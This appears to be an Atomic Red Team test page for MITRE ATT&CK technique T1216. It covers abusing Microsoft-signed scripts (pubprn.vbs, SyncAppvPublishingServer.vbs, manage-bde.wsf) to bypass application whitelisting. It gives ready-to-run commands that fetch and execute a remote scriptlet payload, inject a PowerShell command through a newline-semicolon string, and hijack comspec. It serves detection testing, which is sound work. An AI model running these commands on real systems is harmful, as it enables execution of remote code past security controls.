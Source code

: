 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserver-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```






<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:\Windows\System32\calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Cleanup Commands:
```cmd
set comspec=C:\Windows\System32\cmd.exe
```





<br/>
